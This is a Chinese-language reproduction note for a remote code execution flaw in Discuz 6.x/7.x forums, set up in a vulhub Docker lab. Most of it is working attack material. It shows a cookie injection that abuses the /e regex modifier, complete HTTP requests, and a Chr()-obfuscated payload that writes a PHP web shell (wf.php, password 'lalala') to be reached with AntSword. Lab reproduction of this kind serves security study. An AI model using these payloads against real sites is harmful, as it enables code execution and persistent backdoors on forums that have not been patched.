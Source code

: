 # 0x00 软件介绍
Discuz：一款流行的论坛程序

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：无

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

切换到对应目录下  
docker-compose up -d  
启动后，访问[http://172.16.35.128:8080/install/](http://172.16.35.128:8080/install/)来安装discuz，数据库地址填写db，数据库名为discuz，数据库账号密码均为root

# 0x03 利用条件
无

# 0x04 影响版本
Discuz 7.x 6.x

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

安装成功后，直接找一个已存在的帖子，向其发送数据包，将Cookie中的数据改为
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
```
请求如下
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
返回如下图  
![image](./0.png)  

想getshell可将Cookie中的内容变为  
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```
发送的请求如下  
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
然后可使用蚁剑连接，地址http://172.16.35.128:8080/wf.php 密码lalala

# 0x06 踩坑记录
无

# 0x07 参考链接
无
